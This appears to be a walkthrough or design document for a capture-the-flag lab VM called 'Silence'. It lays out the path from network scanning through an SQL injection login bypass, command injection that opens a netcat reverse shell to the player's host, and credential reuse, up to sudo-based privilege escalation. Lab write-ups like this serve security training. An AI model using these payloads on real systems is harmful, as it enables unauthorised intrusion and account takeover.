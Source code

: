 How to win at Silence
=====================

OVA
--------------------
When imported the network will need to be configured (host only seems easiest). Also the video memory needs to be bumped to 10 mb on Virtual Box.

Finding the box
--------------------
Use the following snipet to find the ip range for Vitual Box / VMWare
```
ifconfig | grep -B4 inet | grep -v '::'
```

Do a quick scan on the network with nmap
```
nmap -F -sV -sC 192.168.99.2-254
```

Getting shell as "psimon"
--------------------
There will be a login form for a webapp at http://silence/

### SQL Injection
There will be a SQL-injectable auth bypass in both the username and password fields. PoC with username = "a' OR 1=1;-- -"

Once logged-in there will be a command-injectable MP3 player playing Disturbed's cover of "The Sound of Silence".

### Command injection
User will need to set up a reverse shell to capture the command injection.
```
nc -l 1234
```

*Hint*: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet]
The command injectable paramater is the peekAt:
```
`nc -n -e /bin/sh 192.168.213.1 1234`
```
(optional) Upgrade shell 
```
python -c 'import pty; pty.spawn("/bin/sh")'
bash
```
Once a shell has been obtained as www-data, a config file will show that the MySQL user for the app is "psimon" and the password is "here's2uMrs.R0bins0n". Perhaps with some comments saying:
> Dammit Paul stop using your password for application deployments! -Art
>
> What's the big deal? If they're in a position to read the config file it's already game-over. Besides, isn't your password mentioned in the git repo? ;) -Paul

Shell as psimon
--------------------
The password from the config will allow you able to "su" to or ssh in as "psimon". SSH is easier and results in a more usable shell.

This is where Flag1 is.

Getting shell as "agarfunkel"
--------------------
"psimon" will have a "id_rsa" in "~/.ssh". His ".bash_history" will be something like:
```
git clone ssh://git@stash.cudaops.com:7999/bnsec/${SOMETHING}
less ${SOMETHING}/INSTALL.md
su - agarfunkel
rm -rf ${SOMETHING}
```

It is possible to "git clone" the repo from stash. The repo will be a copy of the webapp installed at "/var/www". It will have an "INSTALL.md" that says something like "Log in as "agarfunkel" to be able to copy the app to "/var/www". His password is ${SOMETHING}"

It will then be possible to "su" to or "ssh" in as "agarfunkel".

Escalating from "agarfunkel" to root
--------------------
agarfunkel's ".bash_history" will be something like:
```
sudo cp -R /home/psimon/${SOMETHING}/*.php /var/www/
```

Doing "sudo -l" will show that he has (passwordless?) "sudo cp" privileges.

It will then be up to the imagination of the player to use such privilege to gain a root shell.
